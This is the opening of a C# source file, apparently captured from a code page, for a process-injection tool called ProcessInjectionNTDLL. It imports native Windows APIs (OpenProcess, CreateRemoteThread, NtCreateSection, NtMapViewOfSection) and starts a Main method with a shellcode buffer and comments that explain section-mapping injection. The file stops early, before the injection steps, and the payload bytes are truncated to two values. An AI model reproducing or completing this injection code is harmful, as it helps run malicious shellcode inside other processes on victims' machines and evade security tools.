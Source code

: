 #### using low-level native APIs in ntdll.dll

```csharp
using System;
using System.CodeDom.Compiler;
using System.Collections.Generic;
using System.Diagnostics;
using System.Linq;
using System.Net;
using System.Net.NetworkInformation;
using System.Runtime.CompilerServices;
using System.Runtime.InteropServices;
using System.Text;
using System.Threading.Tasks;
using static System.Collections.Specialized.BitVector32;
using static System.Net.Mime.MediaTypeNames;

namespace ProcessInjectionNTDLL
{
    internal class Program
    {
        // OpenProcess - kernel32.dll
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        // CreateRemoteThread - kernel32.dll
        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess,IntPtr lpThreadAttributes,uint dwStackSize,IntPtr lpStartAddress,IntPtr lpParameter,
            uint dwCreationFlags,IntPtr lpThreadId);

        // GetCurrentProcess - kernel32.dll
        [DllImport("kernel32.dll", SetLastError = true)]
        static extern IntPtr GetCurrentProcess();

        // ntdll.dll APIs
        // NtCreateSection
        [DllImport("ntdll.dll")]
        public static extern UInt32 NtCreateSection(ref IntPtr section,UInt32 desiredAccess,IntPtr pAttrs,ref long MaxSize,uint pageProt,uint allocationAttribs,IntPtr hFile);

        // NtMapViewOfSection
        [DllImport("ntdll.dll")]
        public static extern UInt32 NtMapViewOfSection(IntPtr SectionHandle,IntPtr ProcessHandle,ref IntPtr BaseAddress,IntPtr ZeroBits,IntPtr CommitSize,
            ref long SectionOffset,ref long ViewSize,uint InheritDisposition,uint AllocationType,uint Win32Protect);

        // NtUnmapViewOfSection
        [DllImport("ntdll.dll", SetLastError = true)]
        static extern uint NtUnmapViewOfSection(IntPtr hProc,IntPtr baseAddr);

        // NtClose
        [DllImport("ntdll.dll", ExactSpelling = true, SetLastError = false)]
        static extern int NtClose(IntPtr hObject);
        static int Main(string[] args)
        {
            byte[] buf = new byte[642] { 0xfc, 0x48 };
            // MaximumSize is the maximum size of the memory section we desire. In this case, it's going to be the size of our shellcode. Notice that it's a pointer, so we'll need to pass a reference to the buffer_size.
            long buffer_size = buf.Length;
            // This function simply creates a section object. A section object simply means a chunk of memory that a process can use to share memory with another.
```